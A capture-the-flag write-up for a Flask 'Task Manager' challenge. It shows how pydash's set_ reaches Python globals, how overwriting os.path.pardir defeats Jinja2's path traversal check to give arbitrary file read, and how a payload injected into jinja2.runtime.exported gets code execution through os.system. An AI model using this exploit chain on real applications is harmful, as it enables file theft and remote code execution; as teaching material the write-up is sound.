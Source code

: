 # Web - Task Manager
Are you constantly procrastinating real work by spending too much time on ctfs? Me too! That's why I created this lit af task manager app to help us stay on top of our duties.

## The bug
With the first look at the challenge, I was initially intrigued by this part
```py
@app.route("/<path:path>")
def render_page(path):
    if not os.path.exists("templates/" + path):
        return "not found", 404
    return render_template(path)
```
By url-encoding '/', we might be able to do path traversal. So I tried getting `/..%2f..%2fetc%2fpasswd`:

![server error](images/server_error.png)

From the error message in the logs, I could see that the path was indeed given to `render_template`, but it still didn't work. After looking into Jinja2 internals, I found that [this check](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/loaders.py#L33) prevented it as we couldn't have `os.path.pardir` in our path.


After realizing that the initial finding wasn't possible, I actually looked at the functionality of the challenge. We can create little key-value notes. What's interesting is that instead of using a dictionary for this, we set it as attributes of a `TaskManager` object. Even more interestingly is that this is being done with a library called `pydash`.  
I started looking in the [`pydash` docs](https://pydash.readthedocs.io/en/latest/api.html#pydash.objects.set_) and found that by inserting `.` in the key, it would see it as individual attributes and actually traverse the path for us. With this, we can traverse the attribute tree to essentially set any value we want.

## Getting Arbitrary File Read
The first quirk we can use, is that every function object has a dictionary attribute called `__globals__`, which contains the global namespace of where the function was defined. This is normally used by Python when you access global variables from within a function. In this case, we'll use it to get access to all variables in `taskmanager.py`. To do this we can for example access `get.__globals__`.

From here we need to figure out what exactly we want to use this bug to set. Thinking back to the first finding, that I found, if `os.path.pardir` was somehow suddenly changed away from `..`, we would have essentially stripped out the path traversal check in jinja2. So now the goal was to somehow get to `os`.

I started by grepping for `import` in the `pydash` repo to find what it imported. It doesn't seem to import `os` directly, but perhaps it imports it indirectly through one of its other dependencies.  
After looking around, I found that the built-in `inspect` library depends on `os`. It's imported in `helpers.py` in `pydash`, so let's try it!  
Let's create a task called `get.__globals__.pydash.helpers.inspect.os.path.pardir` and setting its value to anything but `..`. Now for the path traversal:

![server error](images/file_read.png)

Now we have arbitrary file read! Looking at the Dockerfile:
```docker
RUN echo "idek{[REDACTED]}" > /flag-$(head -c 16 /dev/urandom | xxd -p).txt
```
It looks like it won't be enough with just arbitrary file read, since the flag path is randomized. Or so I thought... Because further down:
```docker
COPY . .
```
The entire directory along with the Dockerfile with the flag contained in it is copied into the container 🤦
So now we can just get `/..%2fDockerfile` to get the flag!

## Getting RCE
After the CTF ended, the challenge author placed a bounty for being the first to find an RCE and solve the challenge without utilizing that silly unintended. So naturally I started looking at it again.

I knew that my only chance of getting RCE was to somehow inject code into the templates being generated. At first, I thought to look at injecting something into the cache. This path turned out to be a dud, as the only thing that is saved in the cache, is a Python function that generates the text from the template. We have to somehow inject into where it actually compiles that function.

I started by placing a debug `print(source)` in [Jinja's source](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/environment.py#L704) right where it presumably compiles the template. This is what it returns when loading `home.html`:
```py
from jinja2.runtime import LoopContext, Macro, Markup, Namespace, TemplateNotFound, TemplateReference, TemplateRuntimeError, Undefined, escape, identity, internalcode, markup_join, missing, str_join
name = 'home.html'

def root(context, missing=missing, environment=environment):
    resolve = context.resolve_or_missing
    undefined = environment.undefined
    concat = environment.concat
    cond_expr_undefined = Undefined
    if 0: yield None
    pass
    yield '<!DOCTYPE html>\n<html data-theme="light">\n<head>\n\t<meta charset="utf-8">\n\t<meta name="viewport" content="width=device-width, initial-scale=1">\n\t<title>Task Manager</title>\n\t<link rel="stylesheet" href="/static/css/pico.classless.css">\n\t<link rel="stylesheet" href="/static/css/styles.css">\n\t<script src="/static/js/index.js"></script>\n</head>\n<body>\n\t<main>\n\t\t<section>\n\t\t\t<hgroup>\n\t\t\t\t<h1>Task Manager</h1>\n\t\t\t\t<h2>\n\t\t\t\t\t<a href=/create.html>Create a new task</a>\n\t\t\t\t</h2>\n\t\t\t</hgroup>\n\t\t\t<div id="ongoing-tasks">\n\t\t\t\t<article class="task-card shrink"></article>\n\t\t\t</div>\n\t\t</section>\n\t\t<section id="section-completed" hidden>\n\t\t\t<details>\n\t\t\t\t<summary><b>Completed</b></summary>\n\t\t\t\t<div id="completed-tasks">\n\t\t\t\t\t<article class="task-card shrink"></article>\n\t\t\t\t</div>\n\t\t\t</details>\n\t\t</section>\n\t</main>\n</body>\n</html>'

blocks = {}
debug_info = ''
```
Very interesting. So it defines this function `root` that essentially just returns a constant string. It would likely look a little more interesting if `home.html` contained any Jinja2 expressions.  
To see how this code is generated, we'll have to look into `compiler.py` in the [`generate` function](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/compiler.py#L101). It basically just goes through the Jinja2 AST generated by the Loader class, and creates Python source code accordingly. The root of the tree is of type `nodes.Template`, so let's go to the [`visit_Template` method](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/compiler.py#L826). Here I immediately see something very interesting:
```py
        from .runtime import exported, async_exported

        if self.environment.is_async:
            exported_names = sorted(exported + async_exported)
        else:
            exported_names = sorted(exported)

        self.writeline("from jinja2.runtime import " + ", ".join(exported_names))
```
It takes a list of strings from `jinja2.runtime` and places it directly into the source code! This should actually be quite simple to exploit. We'll just have to watch out for the fact that the list for some reason is being sorted, and we have to create a payload within 50 chars.

My final payload:
```py
set_("get.__globals__.pydash.helpers.inspect.sys.modules.jinja2.runtime.exported[0]", '*;import os;os.system("cp /flag* /tmp/flag") #')
```
Now we just have to render a template to execute the code, and then read the flag in `/..%2f..%2ftmp%2fflag`
